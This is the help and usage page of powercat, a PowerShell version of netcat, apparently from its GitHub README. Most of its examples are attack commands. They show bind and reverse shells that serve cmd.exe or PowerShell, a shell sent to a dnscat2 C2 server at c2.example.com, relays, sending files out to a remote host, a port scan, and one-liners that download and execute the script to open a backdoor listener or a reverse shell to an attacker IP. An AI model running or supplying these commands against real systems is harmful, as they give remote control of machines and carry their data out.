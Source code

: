 #powercat

Netcat: The powershell version. (Powershell Version 2 and Later Supported)

### Parameters:
    -l      Listen for a connection.                             [Switch]
    -c      Connect to a listener.                               [String]
    -p      The port to connect to, or listen on.                [String]
    -e      Execute. (GAPING_SECURITY_HOLE)                      [String]
    -ep     Execute Powershell.                                  [Switch]
    -r      Relay. Format: "-r tcp:10.1.1.1:443"                 [String]
    -u      Transfer data over UDP.                              [Switch]
    -dns    Transfer data over dns (dnscat2).                    [String]
    -dnsft  DNS Failure Threshold.                               [int32]
    -t      Timeout option. Default: 60                          [int32]
    -i      Input: Filepath (string), byte array, or string.     [object]
    -o      Output Type: "Host", "Bytes", or "String"            [String]
    -d      Disconnect after connecting.                         [Switch]
    -rep    Repeater. Restart after disconnecting.               [Switch]
    -h      Print the help message.                              [Switch]
### General Usage Examples:
    Listen and Connect:
        powercat -l 443
        powercat -c 10.1.1.10 443
    Serve and Send Shells:
        powercat -l -e cmd.exe 443
        powercat -c 10.1.1.10 -e cmd.exe 443
        powercat -l -ep 443
        powercat -c 10.1.1.10 -ep 443
    Output to a File:
        powercat -l -p 8000 -o "String" | Out-File C:\outputfile
        [IO.File]::WriteAllBytes("C:\outputfile",(powercat -l -p 8000 -o "Bytes"))
    Send a File:
        powercat -c 10.1.1.10 -p 443 -i "C:\inputfile"
        ([IO.File]::ReadAllBytes('C:\inputfile')) | powercat -c 10.1.1.10 -p 443
### powercat Relay Examples:
    Listener to Client Relay (TCP to TCP):
        powercat -l -p 8000 -r tcp:10.1.1.16:443
    Listener to Listener Relay (TCP to TCP):
        powercat -l -p 8000 -r tcp:4444
    Client to Listener Relay (TCP to TCP):
        powercat -c 10.1.1.16 -p 443 -r tcp:4444
    Client to Client Relay (TCP to TCP):
        powercat -c 10.1.1.16 -p 443 -r tcp:10.1.1.16:3389
    Listener to Client Relay (TCP to UDP):
        powercat -l -p 8000 -r udp:10.1.1.16:53
    Listener to Client Relay (TCP to DNS)
        powercat -l -p 8000 -r dns:10.1.1.1:53:c2.example.com
### Other Protocols
    Send a powershell shell out over UDP:
        powercat -c 10.1.1.16 -p 8000 -u -ep
    Send a shell to the dnscat2 server at c2.example.com, sending queries to 10.1.1.1
        powercat -c 10.1.1.1 -p 53 -dns c2.example.com
### Misc Examples:
    Download and Execute Powercat Backdoor Listener One-Liner:
        powershell -c "IEX (New-Object System.Net.Webclient).DownloadString('https://raw.githubusercontent.com/besimorhino/powercat/master/powercat.ps1'); powercat -l 8000 -e cmd.exe"
    Download and Execute Powercat Reverse Shell One-Liner (Replace <Attacker IP>):
        powershell -c "IEX (New-Object System.Net.Webclient).DownloadString('https://raw.githubusercontent.com/besimorhino/powercat/master/powercat.ps1'); powercat -c <ATTACKER IP> 443 -e cmd.exe"
    Basic TCP Port Scanner:
        (21,22,80,443) | % {powercat -c 10.1.1.10 -p $_ -t 1 -Verbose -d}
    Start A Persistent Server That Serves a File:
        powercat -l -p 443 -i C:\inputfile -rep